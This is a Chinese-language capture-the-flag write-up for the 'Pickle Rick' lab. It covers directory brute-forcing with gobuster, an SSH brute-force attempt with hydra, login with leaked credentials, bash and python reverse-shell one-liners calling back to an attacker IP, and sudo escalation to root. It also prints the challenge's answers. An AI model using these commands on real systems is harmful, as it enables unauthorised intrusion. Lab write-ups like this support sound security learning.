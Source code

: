![](assets/web-pickle-rick/file-20241023102615.png)

# Pickle-Rick: 一个完整的挑战
这是一个CTF靶场，这个挑战需要你扮演Morty在目标主机上找到**三种成分（ingredients）** 帮助Rick
从白菜**变回人类**。

- 挑战前需要通过访问Web开始。
- 找到三种`ingredients`
## 此挑战需要回答以下问题

::: details **Task-1** 药剂的第一种成分是什么？
答案：`mr. meeseek hair`
:::
::: details **Task-2** 药剂的第二种成分是什么？
答案：`1 jerry tear`
:::
::: details **Task-3** 药剂的最后一种成分是什么？
答案：`fleeb juice`
:::

## 解题思路总结

![](assets/web-pickle-rick/file-20241024212525.png)
## 详细过程

![](assets/web-pickle-rick/file-20241023104524.png)

信息收集是渗透测试中的重要环节，我们渗透测试过程中要注意不要错误任何细节。
### 登陆web首页

登陆首页后，没有没有发现啥有用的信息，但是通过查看网页源码发现一个用户名：

![](assets/web-pickle-rick/file-20241024214839.png)

除此之外没有发现任何信息。

### 目录爆破

目录爆破是对任何web应用渗透的必须做的工作，这可以帮助你发现整个网站的路径和隐藏的文件，我在此做了多次爆破，以便收集到尽可能有用的信息：

- 目录爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
:::

- 文件爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x x php,txt,zip,html,bak
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html,bak
```
:::

>[!TIP] 注意⚠️
>
>如果在此没得到什么有用的信息，可能是你的字典选择错误，选对字典对我们获取有用的信息非常重要。我渗透的时候因为选错字典走了弯路。

**目录爆破结果**

目录爆破结果，因首先关注状态码为`200`的，其次关注状态码为`300` 的

```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```
### 端口扫描

通过`nmap`端口扫描，发现此主机开启了TCP`80`、`22`端口，尝试爆破22端口，**未成功**。

```bash
hydra -l R1ckRul3s -P /usr/share//usr/share/wordlists
/rockyou.txt  ssh://10.10.204.241
```

>[!NOTE]
>之所以在此尝试爆破`ssh`密码,是因为我在目录爆破时选错字典，导致未发现有用信息😭。但是一般情况，爆破`ssh` 密码很难做到不是第一选择。

### 登陆Web应用

回到目录爆破结果，
```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```

我们首先关注`login.php` 因为这一般是登陆界面：

![](assets/web-pickle-rick/file-20241024222954.png)


其次我们关注`/robots.txt`在`/robots`中发现了一串字符串 `Wubbalubbadubdub`**（“robots.txt”文件通常包含Web开发人员不希望搜索引擎找到和显示的目录）,**

到现在我们已知了用户密码，也找到了登陆界面，因此我们应该尝试登陆：
- 用户名：`R1ckRul3s`
- 密码：`Wubbalubbadubdub`
输入勇猛密码后我们来到了`Command Panel` 命令行页面：
![](assets/web-pickle-rick/file-20241023120401.png)


### 尝试执行命令并获取第一种成分

在命令航执行命令：
```bahs
whoami && pwd && ls
```

我们知道当前用户是`www-data`,当前路径是`/var/www/html`还可以发现一些目录爆破没有发现的文件：
![](assets/web-pickle-rick/file-20241023120724.png)

我们尝试访问这些文件，可以发现一些提示，最终在文件命最长的文件中找到第一种成分。
![](assets/web-pickle-rick/file-20241023123436.png)

![](assets/web-pickle-rick/file-20241023123742.png)
### 尝试进行shell反弹

既然可以在web上执行命令，那就可以尝试进行shell 反弹，通过终端远程连接到主机，尝试 执`nc`，界面无反应，尝试执行`python python --version` 有反应。再此我们可以选择两种方式（除nc外）进行反弹：

```sh [bash]
bash -C 'bash -i >& /dev/tcp/**Local-IP**/443 0>&1 '
```

```sh [python]
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

>[!IMPORTANT] Localhost
>本地主机一定要监听与上面命令内容一致的端口，在此监听的是`443`
>`nc -nvlp 443`
>

### 获取第二种成分

成功连接终端后，我们可以执行`cd`命令跳转到`/home`下，或直接执行`ls /home`  命令，在此会发现在`rick`用户目录。跳转到该目录下，会发现`second  ingredients` 文件，使用`cat`命令查看此文件会发现第二种成分。

```bash
cat /home/rick/second\ ingredients # or  cat /home/rick/‘second ingredients‘

1 jerry tear
```

### 提权并获得第三种成分

目前已获取到两种成分，只要获取到剩下的最后一种成分，就可以答完提名，目前我们可以从整个答题过程感受到，这是一个逐渐突破边界，并获取更高权限的过程，因此我们接下来应该获取到`root`权限。

要获取`root`权限，我们通常要不断尝试才可能成功，在这里我从最好用最常见的开始尝试，直接查看当前用户的`sudo`权限配置:

```bash
sudo -l
```

发现此用户执行`sudo` 不需要密码，因此可以直接通过`sudo`命令提权：

![](assets/web-pickle-rick/file-20241024231405.png)

::: code-group
```bash [命令1] 
sudo bash -p  
```

```bash [命令2]
sudo bash 
```

:::

到此，我们通过`whoami` 命令查看，可知我们目前已获取到`root`权限，让我们跳转到`/root`下，找到`3rd.txt`文件，`cat` 命令查看该文件，获取第三种成分：`fleeb juice`
![](assets/web-pickle-rick/file-20241024231619.png)


## 总结

通过本次挑战复习了以下知识点和技能：
- 渗透测试的思维方式
- gobuser 目录爆破仅能
- 目标主机无`nc`情况下的shell反弹
- linux提权
- `robots.txt` 目录的做用








